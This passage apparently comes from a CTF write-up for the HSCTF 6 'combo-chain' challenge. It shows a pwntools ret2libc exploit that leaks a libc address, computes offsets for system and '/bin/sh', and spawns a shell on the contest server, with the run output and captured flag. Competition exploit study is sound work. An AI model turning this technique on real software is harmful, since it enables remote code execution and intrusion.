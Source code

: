 ```python
payload += p64(main_addr) # Jump back to main

sh.sendlineafter("!: ", payload)

leak = u64(sh.recv()[:6].ljust(8, '\x00')) # Leaked address
print 'Leaked gets libc address: {}'.format(hex(leak))

# Use niklasb's libc_database to find libc version using the leak now

# Use offsets from the libc library
gets_offset = 0x000000000006ed80
system_offset = 0x0000000000045390
bin_sh_offset = 0x18cd57

# Calculate libc base then the addresses required
libc_base = leak - gets_offset
system_addr = libc_base + system_offset
bin_sh = libc_base + bin_sh_offset

# Re-exploit and call system('/bin/sh')
payload = "A"*16
payload += p64(nop)
payload += call(system_addr, bin_sh, None, None)

sh.sendline(payload)

sh.interactive()
```

Running the exploit.
```shell
» ./exploit.py remote 
[*] '/root/Documents/hsctf-6/pwn/combo-chain/bin/combo-chain'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/usr/local/bin/ROPgadget': pid 6822
[+] Receiving all data: Done (3.89KB)
[*] Stopped process '/usr/local/bin/ROPgadget' (pid 6822)
[+] Opening connection to pwn.hsctf.com on port 2345: Done
Leaked gets libc address: 0x7fbcb22b7d80
[*] Switching to interactive mode
$ ls
bin
combo-chain
combo-chain.c
dev
flag
lib
lib32
lib64
$ cat flag
hsctf{i_thought_konami_code_would_work_here}
$  
```

Flag: `hsctf{i_thought_konami_code_would_work_here}`
